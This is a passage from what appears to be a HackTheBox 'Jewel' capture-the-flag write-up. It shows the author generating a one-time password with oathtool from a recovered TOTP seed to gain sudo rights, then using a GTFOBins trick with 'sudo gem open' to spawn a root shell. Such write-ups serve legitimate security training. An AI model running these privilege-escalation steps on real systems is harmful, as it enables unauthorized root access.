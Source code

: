 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-16-HackTheBox-Jewel/2021-09-16-HackTheBox-Jewel%2001:23:23.png)

Now we can trigger it

```sh
oathtool -b --totp '2UQI3R52WFCLE6JTLDCSJYMJH4'
```

It's important to see if the time of your box is the same from the jewel box to make sure it works

And we run that and get access to the `sudo -l`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-16-HackTheBox-Jewel/2021-09-16-HackTheBox-Jewel%2001:24:28.png)

Looking at [gtfobins](https://gtfobins.github.io/gtfobins/gem/#sudo) it's easy to become root

```sh
sudo gem open -e "/bin/sh -c /bin/sh" rdoc
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-16-HackTheBox-Jewel/2021-09-16-HackTheBox-Jewel%2001:25:03.png)
